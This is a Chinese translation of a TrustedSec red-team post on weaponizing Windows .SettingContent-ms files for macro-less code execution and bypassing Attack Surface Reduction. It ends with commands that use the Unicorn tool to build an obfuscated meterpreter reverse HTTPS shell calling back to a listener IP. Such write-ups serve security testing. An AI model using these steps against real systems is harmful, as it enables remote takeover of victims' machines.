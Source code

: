 > 原文链接: https://www.anquanke.com//post/id/152854 


# 武器化：利用.SettingContent-ms文件执行任意代码


                                阅读量   
                                **154763**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">1</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者，文章来源：trustedsec.com
                                <br>原文地址：[https://www.trustedsec.com/2018/06/weaponizing-settingcontent/](https://www.trustedsec.com/2018/06/weaponizing-settingcontent/)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p2.ssl.qhimg.com/t0100ea9361b3652e07.jpg)](https://p2.ssl.qhimg.com/t0100ea9361b3652e07.jpg)

最近，Matt Nelson（<a>@engima0x3</a>）发表了一篇关于利用.SettingContent-ms文件进行代码执行的文章。这篇文章很精彩，因为作为攻击者，我们经常需要从不同的系统上找到多种执行任意代码的方式。本文基于Matt研究的基础，实现在远程系统上进行代码执行。

以下是Matt博文中的几个关键发现：
1. 微软宣称可能不会修复该漏洞。
1. 可以直接利用浏览器执行任意代码攻击。
1. 可以嵌入到Office文档中，并且可以在没有宏的情况下直接执行任意代码。
1. 在Microsoft Office目录中生成子进程，可以绕过使用白名单目录机制的Microsoft’s Attack Surface Reduction (ASR) 。
作为攻击者，上述这些将非常吸引我们，因为我们通常尝试寻找新的方法来攻破系统，而不是使用传统的方法（例如使用宏，HTA等）。Matt已经在研究绕过ASR并进行命令执行方面做了大量研究工作。

最近工作中，我们正在进行red team测试的的客户系统拥有一定的攻击检测能力，而Matt的博文对我们的实际模拟测试提供了及时的帮助。在过去，DDE Auto等其他传统攻击发现一旦被公开，攻击者就会迅速将这些攻击技术进行武器化( [https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/](https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/) )。我们曾经在24小时内就看到了使用DDE进行攻击的攻击向量。

我决定看一下Matt的研究，看看是否可以快速地将它武器化。Matt一直利用calc.exe（通常用于演示命令/代码执行）进行演示，而并没有将它武器化。首先，我决定先利用Unicorn（ [https://github.com/trustedsec/unicorn](https://github.com/trustedsec/unicorn) ）看看是否可以执行经过混淆的攻击载荷（payload）。

先使用Unicorn快速生成了一个meterpreter shell，并复制粘贴到Matt的概念证明（POC）中进行测试，用powershell.exe替换cmd.exe：

```
git clone https://github.com/trustedsec/unicorn
cd unicorn
python unicorn.py windows/meterpreter/reverse_https 172.16.37.164 443
```
